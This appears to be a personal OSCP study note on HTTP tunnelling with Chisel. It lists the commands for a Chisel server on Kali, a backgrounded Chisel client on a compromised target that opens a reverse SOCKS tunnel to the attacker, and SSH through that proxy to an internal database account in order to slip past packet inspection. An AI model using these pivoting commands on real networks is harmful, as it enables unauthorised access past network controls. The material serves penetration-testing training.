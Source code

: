 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/10-port-redirection-and-tunneling/3-http-tunneling/"}
---
```


- Good for when only http is allowed
- Can't use SSH tunnel because of packet inspection
- Chisel creates a HTTP tunnel with SSH inside for encryption
- Chisel exists for all OSes and architectures which other tools like HTTPTunnel does not
- Chisel server listens on TCP port 1080 which is a SOCKS port

-----------
## Chisel HTTP Dynamic/Reverse Port Forwarding + SSH with SOCKS:
1. Get correct binary to target machine from https://github.com/jpillora/chisel/releases/
2. Start Chisel server on kali:
```
chisel server --port 8080 --reverse
```
3. Connect to server using Chisel client:
```
/tmp/chisel client 192.168.45.180:8080 R:socks > /dev/null 2>&1 &
```
4. Connect using SOCKS and win!
5. SSH with SOCKS using ncat:
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
